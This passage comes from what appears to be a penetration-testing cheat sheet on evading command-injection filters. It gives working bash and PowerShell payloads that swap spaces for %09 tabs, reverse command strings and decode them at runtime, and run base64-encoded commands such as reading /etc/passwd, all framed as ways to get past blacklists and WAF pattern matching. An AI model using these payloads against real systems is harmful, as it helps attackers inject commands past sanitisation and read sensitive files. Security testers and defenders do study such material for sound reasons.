 Important: This uses spaces, so if spaces are blacklisted, use tabs:

```bash
$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```
#### Alternative (Lowercasing via `printf`)

```bash
$(a="WhOaMi";printf%09%s%09"${a,,}")
```

✅ Ensure `%09` (tab) is used instead of space
### 2. Reversed Commands

Avoid blacklists by reversing the command string and decoding it at runtime.
#### Linux Example

```bash
echo 'whoami' | rev
# Output: imaohw

$(rev<<<'imaohw')
# Output: 21y4d
```

✅ Does not contain the blacklisted command string

> You can reverse filtered characters too to fully avoid detection.
#### Windows Example (PowerShell)

```powershell
"whoami"[-1..-20] -join ''
# Output: imaohw

iex "$('imaohw'[-1..-20] -join '')"
# Output: 21y4d
```
### 3. Base64-Encoded Commands

Encode the payload to bypass both content filters and WAF pattern matching.
#### Linux

```bash
echo -n 'cat /etc/passwd | grep 33' | base64
# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

✅ Avoids direct use of pipe `|`, space (use tabs), or the `cat` keyword

> Use `<<<` to avoid the pipe, or replace `bash` with `sh` if `bash` is filtered

#### Windows (PowerShell)

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
# Output: dwBoAG8AYQBtAGkA

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
